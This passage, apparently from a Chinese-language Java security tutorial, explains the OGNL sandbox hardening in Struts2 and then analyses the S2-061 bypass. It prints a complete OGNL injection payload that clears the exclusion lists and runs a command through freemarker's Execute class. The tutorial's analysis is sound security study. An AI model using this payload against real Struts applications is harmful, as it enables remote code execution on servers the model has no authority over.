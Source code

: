 ![img](https://oss.javasec.org/images/1625284296495.png)

并且重写了这几个 set 方法中，不再单纯的生成新 set 并重新引用，而是将原始的 set 加上用户输入最终处理成 `Collections.unmodifiableSet()` 再进行赋值。此时我们将不能通过 `clear()` 或者 set 方法清空其中的值。

在 ognl 3.2.10 版本之后，删除了 DefaultMemberAccess 类，同时删除了静态变量DEFAULT_MEMBER_ACCESS，并且 _memberAccess 变成了 final。SecurityMemberAccess 不再继承DefaultMemberAccess 而直接转为 MemberAccess 接口的实现。因此我们不再能使用 DEFAULT_MEMBER_ACCESS 对象覆盖 _memberAccess。

在更高版本的 ognl 中，调用方法的 invokeMethod 方法中进行了判断，禁止调用了一些经常使用的恶意黑名单方法。

![img](https://oss.javasec.org/images/1625284296500.png)


经过上述的安全更新之后，我们在 S2-057 以及之前绕过 Struts2 的的所有想法的策略基本都被禁掉了。因此想要执行恶意 OGNL 变得越来越难。


# S2-061

S2-061 是对 S2-059 沙盒进行的绕过。

> 影响版本：Struts 2.0.0 - Struts 2.5.25
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-061
> 描述：依旧是由于标签中使用 `%{}` 导致的安全漏洞。

网络上流传了如下的 POC，说是可以用来绕过沙盒，我们来看一下：

```
%{
(#im=#application["org.apache.tomcat.InstanceManager"]).
(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
(#bm=#im.newInstance("org.apache.commons.collections.BeanMap")).
(#bm.setBean(#stack)).
(#context=#bm.get("context")).
(#bm.setBean(#context)).
(#ma=#bm.get("memberAccess")).
(#bm.setBean(#ma)).
(#emptyset=#im.newInstance("java.util.HashSet")).
(#bm.put("excludedClasses",#emptyset)).
(#bm.put("excludedPackageNames",#emptyset)).
(#arglist=#im.newInstance("java.util.ArrayList")).
(#arglist.add("open -a Calculator.app").
(#execute=#im.newInstance("freemarker.template.utility.Execute")).
(#execute.exec(#arglist))
}
```

通过 POC 我们发现，这个利用方式是需要 Tomcat 的 InstanceManager 和 Commons-Collections 中的 BeanMap 依赖，也就是有条件的绕过，不再是像之前一样的通杀绕过沙盒。

这个版本的沙盒绕过思路，实际上是相当简单暴力，之前我们经历了若干个版本的攻与防，Struts2 官方通过黑名单、权限、类型的验证来限制我们执行恶意表达式，除了 OGNL 包里面方法调用时加的硬性限制之外，这些限制其实两个字就可以全都绕过：反射。

这就有点挖反序列化 gadget 的感觉了，POC 的具体分析[这篇文章](https://www.anquanke.com/post/id/225252)写的非常好，我这里就不再重复了，文中最后留的 POC 有下面两个：
